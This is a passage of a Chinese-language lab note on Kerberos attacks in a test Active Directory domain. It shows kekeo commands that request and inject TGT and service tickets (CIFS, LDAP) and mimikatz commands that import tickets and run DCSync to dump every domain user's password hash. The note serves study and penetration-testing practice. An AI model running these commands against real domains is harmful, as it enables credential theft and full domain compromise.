









# 申请TGT
## 1、kekeo自动导入票据
密码（明文/Hash）请求

默认情况下，域普通用户不可访问域控的cifs



使用命令导入tgt到内存（参数/ptt是自动导入，不加该参数就会生成一个kirbi文件）

```powershell
kekeo.exe "tgt::ask /user:administrator /domain:sec.com /password:Az123456@ /ptt" exit
```

可以看到成功访问到了C$



## 2、mimikatz手动导入凭证
先用kekeo生成一张凭证，并且使用mimikatz导入到内存

```powershell
kekeo.exe "tgt::ask /user:administrator /domain:sec.com /password:Az123456@" exit
mimikatz.exe "kerberos::ptt TGT_administrator.kirbi" exit
```



命令行输入klist查询当前导入的凭证



注1：如果导入凭证到内存后，即使使用kerberos::purge清除凭证，dir也还是可以正常使用，除非重启计算机

# 申请ST
## 1、先申请一张TGT到文件
上面实验已申请，故不在申请。

## 2、请求CIFS
先申请一张CIFS的TGS凭证

```powershell
.\kekeo.exe "tgs::ask /tgt:TGT_administrator@sec.com.kirbi /service:cifs/win2019-1.sec.com /ptt" exit
```



klist查看确定已经导入TGS-CIFS凭证



dir也能正常访问



## 3、请求LDAP
申请一张LDAP的ST凭证，并且/ptt导入到内存中

```powershell
.\kekeo.exe "tgs::ask /tgt:C:\Users\Administrator\Desktop\kekeo\x64\TGT_administrator@SEC.COM_krbtgt~sec.com@SEC.COM.kirbi /service:ldap/win2019-1.sec.com" exit
```



然后mimikatz通过DCSync导出域用户Hash

```powershell
.\mimikatz.exe "lsadump::dcsync /domain:sec.com /all /csv"
```



# DCSync导出分析
需要一台域机器，后文分析